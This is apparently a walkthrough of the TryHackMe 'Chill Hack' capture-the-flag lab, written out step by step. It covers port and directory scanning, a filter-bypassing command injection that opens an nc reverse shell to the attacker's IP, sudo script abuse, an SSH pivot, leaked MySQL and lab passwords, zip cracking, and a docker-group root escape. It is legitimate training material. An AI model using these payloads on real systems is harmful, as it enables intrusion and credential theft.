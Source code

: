 # Chill Hack

**Room Link:** [https://tryhackme.com/room/chillhack](https://tryhackme.com/room/chillhack)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (15) (2).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (28) (4) (3).png" alt=""><figcaption></figcaption></figure>



A lot of commands ran will result in this page.

<figure><img src="../../.gitbook/assets/image (45) (1).png" alt=""><figcaption></figcaption></figure>

### Command Injection

Used this to find a way to bypass the filter. by adding a \ in the middle of the first command, it treats the command as a new line so it allows us to run any command we want.

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)&#x20;



**Web**

```
r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.172.186 1337 >/tmp/f
```

**Kali**

```
nc -lvnp 1337
```

**Victim**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (20) (1) (5).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (37) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -u apaar /home/apaar/.helpline.sh
/bin/bash
/bin/bash
```

<figure><img src="../../.gitbook/assets/image (21) (4).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Victim(apaar)**

```
netstat -at
curl localhost:9001
```

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18) (9).png" alt=""><figcaption></figcaption></figure>

### Pivot

**Kali**

```
ssh-keygen -t rsa
cat /root/.ssh/id_rsa.pub
```

**Victim**

```
copy id_rsa.pub to /home/apaar/.ssh/authorized_keys
```

**Kali**

```
vi /etc/proxychains.conf
```

**proxychains.conf**

```
socks4 	127.0.0.1 9050
```

**Kali**

```
ssh -D 9050 apaar@VICTIM
```

<figure><img src="../../.gitbook/assets/image (42) (2).png" alt=""><figcaption></figcaption></figure>



I can now see the webpage from Kali but no login credentials to use.

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Found credentials for mysql in one of the php files.

**Victim(apaar)**

```
cat /var/www/files/index.php
```

<figure><img src="../../.gitbook/assets/image (27) (6).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

```
mysql -u root -p webportal
Password: !@m+her00+@db
```

**Victim(mysql)**

```
SHOW DATABASES;
use webportal;
SHOW TABLES;
select * from users;
```

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (14) (11).png" alt=""><figcaption></figcaption></figure>



Both set of credentials work on the login page, both bring up this page.

<figure><img src="../../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

Used no password

**Kali**

```
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

<figure><img src="../../.gitbook/assets/image (17) (6) (2).png" alt=""><figcaption></figcaption></figure>

### Cracking Password Protected Zip Files

**Kali**

```
zip2john backup.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
```

<figure><img src="../../.gitbook/assets/image (43) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
unzip backup.zip
Password: pass1word
```

<figure><img src="../../.gitbook/assets/image (24) (7).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat source_code.php 
echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (36) (2).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

<pre><code>su anurodh
<strong>Password: !d0ntKn0wmYp@ssw0rd
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

anurodh is apart of a docker group which the other user was not apart of, looking at gtfo bins theres a way to get a shell so I tried it and got root

**Link:** [https://gtfobins.github.io/gtfobins/docker/#shell](https://gtfobins.github.io/gtfobins/docker/#shell)

**Victim(anurodh)**

```
groups
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

<figure><img src="../../.gitbook/assets/image (34) (1).png" alt=""><figcaption></figcaption></figure>









